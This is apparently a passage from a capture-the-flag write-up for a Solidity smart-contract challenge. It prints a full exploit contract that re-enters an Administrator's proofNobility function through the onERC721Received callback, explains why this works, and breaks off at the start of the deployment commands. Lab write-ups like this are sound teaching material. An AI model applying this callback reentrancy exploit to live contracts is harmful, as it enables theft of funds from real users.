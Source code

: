 We know what we have to do now; we just need to implement the Exploit. Here is the final Exploit Contract. &nbsp;  
&nbsp;  
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.26;

import "./Administrator.sol";
import "./Noble.sol";
import "./Setup.sol";
import "openzeppelin/token/ERC721/IERC721Receiver.sol";

contract Exploit is IERC721Receiver {
    Setup public setup;
    Noble public noble;
    Administrator public admin;

    uint256 public count = 0;

    constructor(address _setup) payable {
        setup = Setup(_setup);
        noble = Noble(setup.noble());
        admin = Administrator(setup.admin());
    }

    function exploit() public{
        count++;
        admin.proofNobility{value: 1 ether}();
    }

    function proofSolve() public{
        admin.isTrueNoble();
    }

    function onERC721Received(
        address,
        address,
        uint256,
        bytes calldata
    ) external override returns (bytes4) {
        if (count != 10){
            count++;
            admin.proofNobility{value: 1 ether}();
        }
        return bytes4(keccak256("onERC721Received(address,address,uint256,bytes)"));
    }

}
```
&nbsp;  
I will explain a little bit about the *onERC721Received()*. Like what I've said before, it checks if the receiver is capable of receiving an ERC721 transfer, especially if it's a smart contract. This function ensures that it can return the correct selector of *onERC721Received(address,address,uint256,bytes)*, that's why as long as we return the correct value, we can put a logic before the return, making it controllable, just like implementing a logic on *receive()* when we are doing reentrancy. Here is how we can deploy and solve the contract. &nbsp;  
&nbsp;  
```bash
// Checking Our Balance Since we need at least 10 Ether
// We have 12 Ether
cast balance -r $RPC_URL $WALLET_ADDR

// Deploying the Exploit
```